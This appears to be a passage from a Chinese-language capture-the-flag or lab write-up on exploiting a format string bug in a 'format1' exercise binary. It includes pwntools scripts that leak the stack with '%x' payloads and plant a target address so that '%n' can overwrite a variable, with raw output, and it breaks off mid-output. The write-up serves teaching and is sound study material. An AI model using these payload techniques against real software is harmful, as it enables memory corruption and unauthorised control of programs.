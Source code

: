 ```shell
$ python3 -c "print(bytes.fromhex('25207825').decode())"
% x%
```
我們發現到內容為 `% x%`，看起來是我們輸入的參數，我們改變我們的 python 腳本並進行驗證，為了方便觀察，我們使用 pwntools 撰寫腳本。
```py
from pwn import *

payload = "AAAA" + "%x " * 169
p = process(["./format1", payload])
output = p.recvall()
print(output)
```
```diff
$ python3 script.py
[+] Starting local process './format1': pid 424
[+] Receiving all data: Done (1.11KB)                                                                                   [*] Process './format1' stopped with exit code 
0 (pid 424)
b'AAAA804960c ffffcbc8 8048469 f7ffd000 f7fb7000 
ffffcbc8 8048435 ffffcda8 0 804845b 0 f7fb7000 f7fb7000 
0 f7de9ed5 2 ffffcc64 ffffcc70 ffffcbf4 f7fb7000 0 
ffffcc48 0 f7ffd000 0 f7fb7000 f7fb7000 0 a640b1d0 
e4ea37c0 0 0 0 2 8048340 0 f7fe7ad4 f7fe22d0 f7ffd000 2 
8048340 0 8048361 804841c 2 ffffcc64 8048450 8048440 
f7fe22d0 ffffcc5c 1c 2 ffffcd9e ffffcda8 0 ffffcfa8 
ffffcfb8 ffffcfcf ffffcfff ffffd014 ffffd054 ffffd061 
ffffd078 ffffd088 ffffd095 ffffd0b4 ffffd696 ffffd6b8 
ffffd6cc ffffd6ec ffffd6f6 ffffd6fe ffffd71f ffffd760 
ffffdf96 ffffdfa6 ffffdfdb 0 20 f7fcf540 21 f7fcf000 10 
178bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 f7fd1000 8 0 
9 8048340 b 3e8 c 3e8 d 3e8 e 3e8 17 0 19 ffffcd7b 1a 2 
1f ffffdfee f ffffcd8b 0 0 0 bb000000 88d13869 6617aceb 
bfea3541 696df540 363836 0 0 0 2f2e0000 6d726f66 317461 
+41414141 25207825 78252078 20782520 25207825 78252078 
+20782520 25207825 78252078 20782520 25207825 78252078 
+20782520 25207825 78252078 20782520 25207825 78252078 
+20782520 25207825 78252078 20782520 25207825 78252078 
+20782520 25207825 78252078 20782520 25207825 78252078 
+20782520 25207825 78252078 20782520 25207825 78252078 '
```

注意到綠色的部份，出現了 `0x41414141`，在 C 語言中，`argc`, `argv` 會儲存在 stack 中某一個區域，驗證了上面我們在 stack 中看到參數出現的結果。

這邊可以思考一下為什麼我們選擇輸入 169，也可以嘗試輸入其他的數字進行嘗試，你會發現可能剛剛輸入的 `AAAA`，在 stack 中不會按照 `41414141` 的方式排序在 stack 中，有可能會是 `41414100 41` 的方式。
![](https://hackmd.io/_uploads/B1xGVTxS3.png)
看到 `argv` 會出現在 stack 中高位記憶體地址的部份。

我們接下來的攻擊想法，為將 `target` 的記憶體地址放到 stack 中，接著我們如果通過 `printf` 可以成功讀取到該記憶體地址，我們就可以通過 `%n` 對該記憶體地址進行修改，達到運用格式化字串漏洞修改其他無法修改的變數效果，以下為概念演示
```py
from pwn import *

address = "\x38\x96\x04\x08"

payload = "AAAAAAAAAAAAA" + address + 'BBB'+"%x " * 157

p = process(["./format1", payload])
output = p.recvall()
print(output)
```
```diff
AAAAAAAAAAAAA8\x96\x04\x08BBB804960c ffffcbe8 8048469
f7ffd000 f7fb7000 ffffcbe8 8048435 ffffcdbc 0 804845b 0 
f7fb7000 f7fb7000 0 f7de9ed5 2 ffffcc84 ffffcc90 
```